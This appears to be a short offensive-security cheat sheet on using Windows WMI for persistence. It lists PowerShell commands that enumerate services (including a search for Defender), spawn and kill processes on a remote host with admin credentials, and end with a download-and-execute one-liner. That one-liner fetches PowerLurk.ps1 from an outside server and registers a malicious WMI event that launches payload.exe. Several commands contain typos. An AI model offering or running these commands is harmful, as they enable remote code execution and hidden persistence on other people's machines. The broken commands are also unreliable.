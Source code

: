 ***
***

## Introduction to leveraging WMI and Methods for Persistance

`wmic /?`
`Get Wmi-Object`
`Get-WmiObject -Namespace "root/cimv2" -Class "__Namespace"`
`Get-WmiObject -Namespace "root/cimv2" -Class "__Namespace" | Select-Object Name`
`Get-WmiObject -Namespace "root/cimv2" -List`
`Get-WmiObject -Namespace "root/cimv2" -List | Where-Object {$_.Name -Match "Win32_Service"}`
`Get-WmiObject -Class Win32_Service`
`Get-WmiObject -Class Win32_Service | Where-Object {$_.State -Match "Running"}`
`Get-WmiObject -Class Win32_Service | Where-Object {$_.Name -Match "Defend"}`
`Get-WmiObject -Class Win32_Process -List`
`Get-WmiObject -Class Win32_Process -List | Get-Member -MemberType Method`
`$proc = Get-WmiObject -List Win32_Process` + `$proc.Create("cmd.exe")`
`Invoke-WinMethod -Class Win32_Process -Name create -ArgumentList cmd.exe`
`Invoke-WmiMethod -Class win32_Process -Name create -ArgumentList cmd.exe -ComputerName 192.168.13.60 -Credential localadmin`
`Invoke-WmiMethod -Class win32_Process -Filter {ProcessId = "2512"} -ComputerName 192.168.13.60 -Credential localadmin`
`Invoke-WmiMethod -Class win32_Process -Filter {ProcessId = "2512"} -ComputerName 192.168.13.60 -Credential localadmin | Remove-wmiObject`
<br>
Download payload target host. Then create handler in our system.
Downlaod PowerLurk.ps1 with following command:
`IEX (NewObject Net.WebClient).DownloadString('http://192.168.1.1/PowerLurk.ps1'); Register-MaliciousWmiEvent -EventName CalcExec -PermanentCommand "cmd.exe /c C:\programdata\payload.exe" -Trigger ProcessStart -ProcessName cal.exe`
***
***

